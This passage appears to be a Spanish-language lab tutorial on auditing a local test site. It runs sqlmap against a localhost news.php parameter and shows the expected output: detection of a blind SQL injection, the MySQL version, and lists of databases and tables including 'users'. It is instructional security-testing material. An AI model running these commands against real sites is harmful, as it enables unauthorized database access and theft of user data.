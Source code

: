 **Resultado esperado:**
```
[INFO] testing connection to the target URL
[INFO] checking if the target is protected by some kind of WAF/IPS
[INFO] testing if the parameter 'id' is dynamic
[INFO] confirming that parameter 'id' is dynamic
[INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable
[INFO] testing for SQL injection on GET parameter 'id'
[INFO] testing 'Boolean-based blind SQL injection'
[INFO] GET parameter 'id' appears to be 'Boolean-based blind SQL injection' injectable
```

### Paso 2: Identificación del SGBD
```powershell
python sqlmap.py -u "http://localhost/news.php?id=1" --banner --batch
```

**Resultado esperado:**
```
[INFO] the back-end DBMS is MySQL
web server operating system: Windows
web application technology: Apache 2.4.X, PHP 8.X
back-end DBMS: MySQL >= 5.0.12
banner: '8.0.34'
```

### Paso 3: Enumeración de bases de datos
```powershell
python sqlmap.py -u "http://localhost/news.php?id=1" --dbs --batch
```

**Resultado esperado:**
```
available databases [4]:
[*] auditoria_web
[*] information_schema  
[*] mysql
[*] performance_schema
```

### Paso 4: Enumeración de tablas de nuestra BD
```powershell
python sqlmap.py -u "http://localhost/news.php?id=1" -D auditoria_web --tables --batch
```

**Resultado esperado:**
```
Database: auditoria_web
[2 tables]
+-------+
| blog  |
| users |
+-------+
```
